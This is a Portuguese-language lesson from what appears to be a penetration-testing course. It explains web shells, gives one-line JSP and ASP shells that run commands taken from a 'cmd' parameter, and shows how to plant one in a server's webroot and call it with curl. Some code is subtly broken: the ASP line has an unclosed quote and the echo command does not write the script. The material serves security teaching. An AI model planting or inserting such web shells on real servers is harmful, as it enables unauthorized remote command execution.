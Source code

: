 # Web shell

Por último mas não menos importante, temos o web shell, que normalmente é um script (PHP, ASPX, JSP, etc) que executa nossos comandos pela requisição HTTP com parâmetros como (incluindo mas não se limitando) GET ou POST e imprime a saída na página web.

## Criando um web shell
Vamos usar o PHP para criar o shell, principalmente por ser a linguagem mais comum usada por servidores. A lógica do script é levar nosso comando ao servidor com o parâmetro GET, executar o comando e imprimir a saída na página web.

Um script php costuma ser um script one-liner, que pode ser memorizado e usado em qualquer lugar e ambiente.

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```asp
<% eval request("cmd) %>
```
## Upando o shell
Upar um shell, significa enviar o script para o servidor. Isso pode ser feito de várias formas, como por exemplo, através de um formulário de upload, ou até mesmo por um arquivo de texto. 

De qualquer forma, se não tivermos nenhuma vulnerabilidade de upload descoberta mas tivermos execução remota de código, podemos criar um arquivo no *webroot* do servidor com o shell e acessá-lo pelo navegador.

`echo script.php > /var/www/html/script.php`

supondo um shell escrtio em PHP e um servidor Apache.

O shell provavelmente vai para o webroot do servidor, que é o diretório onde os arquivos do site são guardados.

Depois de injetar o arquivo, podemos acessá-lo através do navegador indo até o caminho onde ele foi guardado e abrindo o arquivo PHP.

Se não soubermos onde o shell foi guardado, temos 2 opções:

1. tentar adivinhar o caminho, dependendo do servidor. Normalmente (eu digo normalmente por que usuário raramente mexem na configuração padrão do servidor por acharem muito complicado) existe um caminho padrão para o webroot, como `/var/www/html` para servidores Apache, `usr/local/nginx/html` para NGINX, `C:/inetpub/wwwroot` para IIS, `C:/XAMPP` para XAMPP. Esses são os principais servidores web, e cada um tem seu próprio caminho para o webroot, existem outros e todos os diretórios webroot podem ser encontrados na documentação do servidor.

2. Usar o *[gobuster](../7_enum-web.md)* para procurar por arquivos no servidor.

Depois de abrir o script injetado, podemos enviar comandos para o servidor através do parâmetro GET `cmd`.

`http://http://SERVER_IP:PORT/shell.php?cmd=id`
ou
`curl http://SERVER_IP:PORT/shell.php?cmd=id`

Esse comando retorna o ID do usuário que está rodando o servidor.
![alt text](../../../content/uid.png)
Uma vantagem do web shell é que ele é muito mais fácil de usar do que um shell reverso, já que não precisamos configurar um listener, e podemos acessá-lo de qualquer lugar, desde que tenhamos acesso à internet. Além disso ele passa direto por firewalls, já que a comunicação é feita por HTTP.

[próxima aula](../9_priv-esc.md)